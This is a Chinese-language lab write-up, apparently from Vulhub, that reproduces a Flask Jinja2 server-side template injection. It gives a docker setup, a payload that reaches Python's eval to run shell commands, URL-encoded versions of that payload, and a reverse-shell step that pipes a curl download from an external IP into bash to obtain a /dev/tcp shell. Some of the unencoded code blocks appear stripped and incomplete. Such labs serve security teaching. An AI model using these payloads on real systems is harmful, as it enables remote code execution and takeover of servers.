


# Flask Jinja2 服务端模板注入漏洞

## 漏洞描述

参考阅读：

- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates

## 环境搭建

Vulhub编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8000/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。



## 漏洞复现

获取eval函数并执行任意python代码的POC：

```


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

URL编码，添加以下Payload得到执行结果：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```



### 反弹shell

通过curl的方式反弹shell，bash.html文件内容：

```
/bin/bash -i >& /dev/tcp/your-ip/2333 0>&1
```

构造Payload：

```
http://flask-ip:8000/?name=

  
  
    
      {{ b['eval']('__import__("os").popen("curl your-ip/bash.html | bash").read()') }}
    
  
  


```

URL编码后：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22curl%20101.42.237.61/bash.html%20|%20bash%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

浏览器访问，监听2333端口，成功接收反弹shell。

